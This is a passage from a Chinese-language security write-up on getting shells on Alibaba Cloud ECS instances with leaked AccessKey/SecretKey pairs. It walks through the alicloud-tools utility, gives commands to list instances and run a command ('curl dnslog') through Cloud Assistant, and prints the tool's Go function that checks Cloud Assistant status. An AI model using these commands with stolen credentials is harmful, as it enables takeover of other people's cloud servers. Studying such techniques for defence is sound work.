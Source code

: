 #### 1.1.3.2、开源工具

##### 工具利用：

<https://github.com/iiiusky/alicloud-tools>

##### 执行命令（Getshell）：

查看所有实例信息  
`./AliCloud-Tools -a <AccessKey> -s <SecretKey> ecs --list`  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-85f968c3dc10f8f7dcb598bdec20801c581c97c0.png)  
执行命令  
`./AliCloud-Tools -a <AccessKey> -s <SecretKey> [-r <regionId>] ecs exec -I <InstanceId[,InstanceId,InstanceId,...]> -c "curl dnslog"`  
需注意只有安装云助手才可以执行命令，而且命令并无回显  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-63c54192234d5542e02b1d91d103ede98b92492f.png)

#### 1.1.3.3、分析

云助手是专为云服务器ECS打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在ECS实例上实现批量运维、执行命令（Shell、Powershell和Bat）和发送文件等操作。典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。  
您可以通过ECS控制台或者调用API使用云助手。

```php
业务需求                        参考文档                        相关API
新建一份云助手命令。  创建命令        ● RunCommand ● CreateCommand
```

所以上面执行命令就是利用的云助手进行的，分析一波源码，直接进入到alicloud-tools-main/cmd/exec.go中，先看到会检测当前实例是否安装了云助手  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b9a15efa91198b8dcc6427eeaa7f1f446f332803.png)  
alicloud-tools-main/core/ecs.go中CheckCloudAssistantStatus 检测云助手安装情况

```go
// CheckCloudAssistantStatus 检测云助手安装情况
func CheckCloudAssistantStatus(regionId, instanceId string) bool {
    client, err := common.GetEcsClient(regionId)
    if err != nil {
        common.Logger().Error(fmt.Sprintf("【检测云助手安装情况】创建客户端发生异常,异常信息为 %s", err.Error()))
        return false
    }

    request := ecs.CreateDescribeCloudAssistantStatusRequest()
    request.Scheme = "https"
    request.InstanceId = &[]string{instanceId}

    response, err := client.DescribeCloudAssistantStatus(request)
    if err != nil {
        common.Logger().Error(fmt.Sprintf("【检测云助手安装情况】创建检测云助手安装情况请求发生异常,异常信息为 %s", err.Error()))
        return false
    }

    if strings.ToLower(response.InstanceCloudAssistantStatusSet.InstanceCloudAssistantStatus[0].CloudAssistantStatus) != "true" {
        return false
    }

    return true
}
```

